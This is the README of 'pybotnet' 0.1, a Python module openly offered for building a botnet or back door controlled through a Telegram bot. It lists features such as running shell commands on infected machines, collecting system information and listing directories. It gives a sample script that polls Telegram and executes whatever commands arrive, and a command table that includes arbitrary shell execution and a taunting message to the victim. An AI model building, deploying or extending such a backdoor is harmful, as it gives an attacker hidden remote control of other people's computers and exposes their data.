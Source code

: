 # pybotnet  0.1

A module for building botnet or back door with Python and Telegram control panel
- [x] windows
- [x] linux
- [ ] mac :Not tested

### See the [TODO List](https://github.com/onionj/pybotnet/blob/master/TODOLIST.MD) if you want to *help* me <3

### Features:
* get command from telegram and execute scripts 
* get command and send message by third party proxy
* get target info 
* sleep source by Optional message
* get ls (dirctory list)

 


### Requirements:

* Python 3.6 or higher.
* Telegram account
* your account number ID (get it from @userinfobot)
* telegram api token (Get it from the telegram botfather)
```
pip install -r requirements.txt
```

### Sample:

```python
import pybotnet
import time

TELEGRAM_TOKEN = '1468299500:AAHsvEH-5VyIfWYMzZcYxF_e00000000000'
ADMIN_CHAT_ID = '12345678910'
delay = 60

bot = pybotnet.PyBotNet(TELEGRAM_TOKEN, ADMIN_CHAT_ID, show_log=True, send_system_data=True)

while True:
    bot.get_and_execute_scripts_by_third_party_proxy()
    time.sleep(delay)

```

### Commmands:
*Send this message to your api bot in telegram, using the admin account.* \
*If you want the command to run only on one system, write the MAC address of that system first `66619484755211 get_info`*

COMMAND | Sample | DO THIS | Minimum version required | Works well on: |
--------|--------|---------|--------------------------|----------|
`get_info` | `get_info` |return system info | 0.06 | windows, linux |
`do_sleep \<scconds> \<message (Optional)>` | `do_sleep 99999 hi, i see you!` | \<if message != none : print(message) > ; time.sleep(seccond) | 0.08 | windows, linux |
`cmd \<system command>` | `cmd mkdir new_folder` | run system command in shell or cmd (Be careful not to give endless command like `ping google.com -t`  in wiindows or `ping google.com` in linux)| 0.07 | windows, linux(test need) |
`ls \<route>` | `ls C:\ , ls /home` |Returns a list of folders and files in that path | 0.09 | windows, linux |
